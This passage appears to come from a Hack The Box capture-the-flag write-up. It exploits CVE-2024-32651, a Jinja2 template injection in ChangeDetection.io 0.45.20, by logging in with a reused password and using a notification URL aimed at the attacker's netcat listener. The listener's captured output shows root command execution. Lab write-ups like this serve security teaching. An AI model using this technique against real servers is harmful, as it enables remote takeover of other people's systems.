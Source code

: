 I’ll reconnect SSH using `-L 5000:172.17.0.2:5000` to tunnel localhost:5000 through to this website. The site is an instance of [ChangeDetection.io](https://changedetection.io/):

![image-20240924202229822](/img/image-20240924202229822.png)
[![expand](/icons/expand.png)](javascript:void(0) "Click to expand for full content")

The version at the top right is 0.45.20. The password for james, “alwaysandforever”, works to log in:

![image-20240924203221614](/img/image-20240924203221614.png)

### CVE-2024-32651

#### Background

Searching for “changedetection.io 0.45.20 exploit” returns multiple references to CVE-2024-32651:

![image-20240924203432766](/img/image-20240924203432766.png)

[CVE-2024-32651](https://nvd.nist.gov/vuln/detail/CVE-2024-32651) is a:

> Server Side Template Injection (SSTI) in Jinja2 that allows Remote Command Execution on the server host. Attackers can run any system command without any restriction and they could use a reverse shell. The impact is critical as the attacker can completely takeover the server machine. This can be reduced if changedetection is behind a login page, but this isn’t required by the application (not by default and not enforced).

This [advisory](https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3) has steps for a POC.

#### POC

I’ll create a new watch for my host with a name “0xdf”. On the “Notifications” tab, under “Notifcation Body”, I’ll add the SSTI payload:

![image-20240924210038647](/img/image-20240924210038647.png)

Above that is the “Notifications URL List”. There are a bunch of different URL types like Discord and Telegram, but as the HTB machine can’t reach the internet, they won’t work. Another option is `get://`, which will send a GET request. Interestingly, it still sends the payload in the HTTP body. I’ll start `nc` on 80 and give it `get://10.10.14.6:80`. I’ll click “Send test notification”:

![image-20240924210251551](/img/image-20240924210251551.png)

At `nc`:

```

oxdf@hacky$ nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.34 47036
GET / HTTP/1.1
Host: 10.10.14.6
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 38

uid=0(root) gid=0(root) groups=0(root)

```
